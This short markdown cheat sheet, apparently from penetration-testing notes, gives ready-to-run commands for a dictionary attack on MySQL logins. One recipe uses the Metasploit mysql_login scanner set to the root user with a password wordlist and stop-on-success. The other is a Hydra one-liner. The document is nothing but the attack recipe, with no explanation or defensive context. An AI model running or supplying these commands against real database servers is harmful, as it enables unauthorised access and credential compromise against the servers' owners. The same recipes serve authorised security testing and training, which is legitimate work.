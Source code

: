 # MYSQL Dictionary Attack
#### USING METASPLOIT:

```
msfconsole
use auxiliary/scanner/mysql/mysql_login 
set RHOST <TARGET>
set PASS_FILE <PASSWORD WORDLIST>
set STOP_ON_SUCCESS true
set VERBOSE false
set USERNAME root
exploit
```

#### USING HYDRA:

```
hydra -l <USERNAME> -P <PASSWORD WORDLIST> <TARGET> mysql
```
